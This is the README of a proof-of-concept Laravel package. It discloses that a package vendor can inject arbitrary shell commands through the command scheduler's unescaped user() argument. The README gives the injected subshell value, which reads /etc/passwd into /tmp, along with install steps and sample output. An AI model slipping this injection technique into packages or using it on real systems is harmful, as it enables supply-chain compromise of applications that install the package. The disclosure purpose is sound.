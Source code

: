 # Laravel - Shell Escape PoC

Proof of Concept to prove Laravel package vendors can exploit the command scheduler to run self-scheduled arbitrary shell commands.

Affecting all Laravel versions above 5.4 (Lumen is untested) when the scheduler `artisan schedule:run` is used.

### Installation
1. [Setup fresh laravel project](https://laravel.com/docs/8.x/installation#installation-via-composer)
```
composer create-project laravel/laravel example-app
```

2. Include this package
```
composer require shell-escape/poc:dev-master
```

_<small>Due to the nature of this package I will not be adding it to packagist.<br/>You will have to add the repository manually https://getcomposer.org/doc/05-repositories.md#repository
</small>_

### Running
```bash
> php artisan schedule:run
Running scheduled command: sudo -u YOURUSER $(cat /etc/passwd > /tmp/really-cool.log || true) -- sh -c ''/usr/bin/php' 'artisan' the:poc > '/dev/null' 2>&1'

Process finished with exit code 0

> cat /tmp/really-cool.log
root:x:0:0::/root:/usr/bin/zsh
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
...
```

`/tmp/really-cool.log` will contain the output of your `/etc/passwd`

### How the exploit works

#### Service Provider auto-discovery
Laravel's package discovery is utilised for the requiring app, to have the package automatically bootstrapped on application boot
> https://laravel.com/docs/8.x/packages#package-discovery

#### Adding the command schedule
As part of the service provider `boot()` is used to have a service resolution callback of the 

`ShellEscapePoc\Console\ExploitingCommand` is registered in a typical manner using the `register()` method.

Part of the schedule registration is to specify an explicit `user()` to use, which is functionality supported by Laravel.
The [CommandBuilder](https://github.com/illuminate/console/blob/465ab9dedd7db3a7ac551315259a5f9f261741f8/Scheduling/CommandBuilder.php#L73) 
is not escaping supplied arguments, given the CommandBuilder generates a command templated from
```
sudo -u $1 -- sh -c $2
```

we're able to seize control by using the shell's scripting language `AND` control operator.

eg.
```
$1 = cat /etc/passwd > /tmp/really-cool.log
$2 = 'the:poc'
```
`$2` must be a real command, registered in the Laravel console Kernel

The service wraps `$1` in a subshell, with an `OR` control operator (`||`) to `true`.
```bash
sudo -u $(cat /etc/passwd > /tmp/really-cool.log || true) -- sh -c the:poc
```
to trick the command runner into thinking the process is always successful.
This is not required, but rather used to hide exit codes other than 0
